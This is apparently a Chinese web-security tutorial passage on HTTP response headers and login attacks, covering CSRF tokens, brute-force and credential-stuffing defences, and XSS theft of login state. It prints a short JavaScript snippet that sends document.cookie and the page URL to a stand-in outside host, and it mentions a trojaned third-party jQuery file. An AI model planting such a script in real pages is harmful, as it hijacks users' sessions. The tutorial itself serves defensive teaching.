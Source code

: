 4. 接受HTTP响应 response
![](https://img.alicdn.com/L1/461/1/c77092529abb1a440d8e138a09530c37701b351b)

也是三部部分（响应状态+Head+Body）
- Server 使用的WEB服务器
- Date 响应的日期
- Content-type MIME类型为html类型，字符集是 UTF-8
- Connection 使用keep-alive特性
- Content-Encoding 使用gzip方式对资源压缩
- Set-Cookie 设置客户端这边的Cookie信息:
埋个问题，后面细讲：“Set-Cookie: at=71fe0cca-6205-42b7-85fd-629f30cf2df7%7C5e68b7f6-73b9-452c-8edc-25d6b382b2d5; Path=/; HttpOnly”

HTTP请求原理讲解完毕，继续回归网站安全，我们选取一个日常操作中高风险的登陆操为例来说明。

五.登陆操作
我们先分析简单的通过用户名+密码进行登陆操作。步骤拆解为：
输入：用户名和密码，
输出：收到登陆状态和登陆信息。
然后以后的操作都需要包含这些登陆信息，服务器就能判断是用户A登陆还是用户B登陆了。

攻击1：（模拟输人）
矛1-1：恶意提交
防御原理
- 正常的操作前，用户一般需要先访问一个特定的地址（例如：需要输入的登陆框）以查看需要输入哪些参数。
- 针对这个特性：我们在用户正常操作的表单(登陆操作是输入用户名和密码)中，多隐藏一个参数(CSRF)在输入框界面中，稍后点击提交时，表单会自动携带这个额外参数，如果没携带就是非法请求(恶意提交)。
- 如果我们的网站没有添加这个额外参数，网站又名：具有CSRF漏洞。
（由于CSRF验证获取难度小，也不是一次性的，所以不能说能防御撞库，仅能防御恶意脚本，谢谢”远遥“）

矛1-2：穷举法的撞库
原理：通过不停用的变化输入信息（用户名和密码），然后发送到服务器验证是否正确。防御手段也相对简单，就是提高输入隐藏限制。

防御1：限制次数
手段可以是：I、通过账号限制，如果一个用户输入3次密码后锁定账户20分钟。
II、通过外网IP限制，检测错误频率，封杀外网IP。

防御2：增加输入成本
暴力破解除了穷举法外是否还有其他思路呢？像我们如果要破解客户端的小程序话，往往是通过汇编程序找到判断密码是否相等的代码改为“不等”才是更高效的破解办法。登陆是否有类似粗暴的破解方法吗？答案是肯定的，那就直接窃取登陆信息。

攻击2：（入侵输出）窃取登陆状态
我们将窃取登陆状态想象为入室盗窃的话，这就好比小偷不用跟你家钻石级防盗门较劲了，而是乘主人打开门后也进去搬点东西。其危害更大。

矛2-1：通过XSS注入获取登陆状态
Xss漏洞就是网页能被插入脚本。多发生在网页接受参数时。
现在前端发展的越来越强大，JavaScript能干的事情也越来越大。先秀短代码

var url=document.top.location.href;
var cookie=document.cookie;
var c=new Image();
var c.src=’http://www.B.x/?c=’+cookie+’&u=’+url;
短短4行代码就实现了将网站A的cookie信息发送给了网站B，完成了窃取Cookie。
大家可能会说我们的网站没有XSS漏洞，那就不用担心这个问题吧？那你的网站是否有引入第三方js文件呢？如果这个文件来源与不知名的小网站，很可能是被挂马了的。笔者曾经有幸抓到一段挂马代码，分享给大家。（挂马文件http://xxx.com/scripts/jquery/jquery.form.js）
